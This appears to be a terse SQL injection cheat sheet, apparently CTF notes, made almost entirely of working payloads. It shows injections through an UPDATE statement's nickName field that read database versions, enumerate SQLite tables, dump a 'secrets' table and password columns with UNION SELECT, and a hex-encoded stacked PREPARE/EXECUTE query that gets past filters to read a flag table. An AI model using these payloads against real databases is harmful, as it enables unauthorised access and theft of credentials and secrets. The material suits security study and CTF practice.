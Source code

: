 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```



Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```



